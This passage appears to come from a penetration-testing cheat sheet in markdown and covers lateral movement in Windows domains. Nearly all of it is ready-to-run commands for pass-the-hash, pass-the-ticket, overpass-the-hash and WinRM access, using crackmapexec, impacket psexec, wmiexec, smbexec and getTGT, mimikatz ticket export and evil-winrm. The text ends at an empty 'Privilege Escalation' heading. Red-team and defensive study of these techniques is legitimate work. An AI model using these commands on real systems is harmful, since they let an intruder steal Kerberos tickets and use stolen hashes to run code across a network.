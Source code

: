 ## Lateral Movement

### Pass-the-Hash
```bash
# SMB lateral movement
crackmapexec smb <target-range> -u <username> -H <nt-hash> --local-auth
crackmapexec smb <target-range> -u <username> -H <nt-hash>

# PSExec with hash
impacket-psexec <domain>/<username>@<target> -hashes <lm-hash>:<nt-hash>

# WMIExec with hash
impacket-wmiexec <domain>/<username>@<target> -hashes <lm-hash>:<nt-hash>

# SMBExec with hash  
impacket-smbexec <domain>/<username>@<target> -hashes <lm-hash>:<nt-hash>
```

### Pass-the-Ticket
```bash
# Extract tickets (Windows)
mimikatz # sekurlsa::tickets /export

# Use ticket (Linux)
export KRB5CCNAME=<ticket-file>.ccache
impacket-psexec <domain>/<username>@<target> -k -no-pass

# Convert ticket formats if needed
impacket-ticketConverter <ticket-file>.kirbi <ticket-file>.ccache
```

### OverPass-the-Hash
```bash
# Use NTLM hash to get Kerberos ticket
impacket-getTGT <domain>/<username> -hashes <lm-hash>:<nt-hash>
export KRB5CCNAME=<username>.ccache
impacket-psexec <domain>/<username>@<target> -k -no-pass
```

### WinRM Lateral Movement
```bash
# Test WinRM access
crackmapexec winrm <target> -u <username> -p <password>
crackmapexec winrm <target> -u <username> -H <nt-hash>

# Connect via WinRM
evil-winrm -i <target> -u <username> -p <password>
evil-winrm -i <target> -u <username> -H <nt-hash>
```

## Privilege Escalation
